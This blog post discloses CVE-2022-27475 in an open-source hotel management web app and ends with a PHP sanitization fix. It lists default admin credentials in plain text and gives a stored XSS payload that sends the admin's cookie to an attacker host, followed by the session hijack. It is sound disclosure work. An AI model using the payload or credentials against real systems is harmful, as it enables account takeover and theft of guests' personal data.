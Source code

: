 ```yaml
---
layout: post
title: CVE-2022-27475
subtitle: Finding Small Bugs in Github
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]

---
```


# CVE-2022-27475

While looking at some open source projects on github I came across [this](https://github.com/tramyardg/hotel-mgmt-system) hotel management software. The webapp is used to create reservations for a hotel. I decided to downlaod it and play around with the app and my findings are below

# Default Passwords in admin.json

The admin.json file is readable by any user. If these account passwords are not changed anyone can get access to the admin console

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/f6f56174ff3d4c5d8746d627bf4b652c.png)

`martha@hotmail.com:1324`
`admin@gmail.com:admin123`
`admin@admin.com:admin123`

# Stored XSS

The `Name` field in `/register.php` is vulnerable to a stored XSS vulnerbility. When a user imputs malicious code such as `<script>new Image().src="http://KALI/cookie.php?c="+document.cookie;</script>` into the `Name` field whenever the admin goes to `/admin.php` the malicous Java Script code will be ran and the admins cookie will be sent to the attacker. The attacker can then use this cookie to gain access to `/admin.php` allowing him to get PII such as full names, phone numbers, and email addresse. This PII can then be used for other attacks

## POC

We can create a new user with the malicious XSS as the `Name`

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/675ecd9086dd474197606b9f02a09dee.png)

When an Admin logs into the admin page they will not see our XSS but our payload did execute
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/6b2db54ce9234750adfb009403e6824b.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/19e7d108edce46bcbd8480dd3ef8837d.png)

Back on kali we can see admins cookie

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/9acef946a430450483a82f26f0db6ada.png)

Signed in as another user we can edit our cookie to be the admins

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/4af5a4ee4a5a47b5b99976ec01877958.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/575d61ec0cd84fe6baad0d3fdffb59ac.png)

Now going to `/admin.php` we can view bookings as another user.

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/cc9c986945504c1ea24ea95c18d06375.png)

# Fix

To fix this add the following code at the top of `/app/process_registration.php`

```
function sanitize_xss($value) {
    return htmlspecialchars(strip_tags($value));
}
```

Then Around line 30 make the following change
`$customer->setFullName(sanitize_xss($_POST["fullName"]));`

This will sanitize the input

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/06132c248d4a4f29968190785c928a65.png)
